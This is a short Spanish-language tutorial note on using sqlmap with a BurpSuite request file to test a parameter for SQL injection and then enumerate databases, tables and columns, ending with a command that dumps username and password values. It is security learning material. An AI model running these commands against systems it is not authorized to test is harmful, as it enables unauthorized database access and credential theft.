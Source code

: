 # SQL-Map ❮❯

Tags: #Tool #Web #Enumeracion #BurpSuite #SQLI

Podemos usar los archivos de BurpSuite para ingresarlos en la herramienta SQL-Masp y asi nos diga que tipo de vulnerabilidades tiene, ademas de poder obtener datos a paratir de ellas. Para este ejemplo usaremos **SQLI**

```bash
❯ sqlmap -r example.req -p searchitem --batch

	# r = Archivo con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
```

```bash
❯ sqlmap -r example.req -p searchitem --batch --dbs

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# dbs = Me muestre todas las bases de datos existentes (Dumpear)
```

Una vez obtenidas las DBs podemos apuntar a las **tablas** de una base especifica

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining --tables

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# tables = Queremos que nos muestre las tablas de la DB que elegimos 
```

Una vez obtenidas las tablas, ahora vamos a querer que nos enumere las **columnas**

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users --columns

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# columns = Queremos que nos muestre las columnas de la DB que elegimos 
```

Una vez obtenidas las columnas podemos hacer que nos **muestre (Dumpear)** sus valores

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users -C username,password --dump

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# C = Le colocamos el nombre de las columnas existente 
	# dump = Que nos muestre los valores que tienen esas columnas
```

****

